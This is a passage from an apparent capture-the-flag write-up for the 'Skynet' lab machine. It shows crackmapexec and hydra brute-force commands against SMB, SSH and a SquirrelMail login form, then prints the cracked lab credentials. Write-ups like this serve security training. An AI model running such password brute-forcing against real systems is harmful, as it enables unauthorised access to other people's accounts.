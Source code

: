 Tried bruteforce smb and ssh, both failed

- `cme smb 10.10.67.8 -u milesdyson -p log1.txt`
- `hydra -l milesdyson -P log1.txt ssh://10.10.67.8`

Brute force `/squirrelmail` in http

```bash
hydra -l "milesdyson" -P results/10.10.67.8/loot/logs/log1.txt -e nsr -s 80 -o "/home/kali/thm/skynet/results/10.10.67.8/scans/tcp80/tcp_80_http_form_hydra.txt" http-post-form://10.10.131.237/squirrelmail/src/redirect.php:"login_username=^USER^&secretkey=^PASS^":"Unknown user or password incorrect"
```

![](../../attachment/d2bdd3cc60e2c719dfcede91e9a14caf.png)

> Creds: `milesdyson`:`cyborg007haloterminator`

Login success

![](../../attachment/7025ba68262c5d1a2ed81296f9db3a20.png)

### What is the hidden directory?

#### Get SMB Password

![](../../attachment/fae3603407b46275a23bfbb889d3b8b6.png)

![](../../attachment/898b2be061f3a9706d4d998670956774.png)
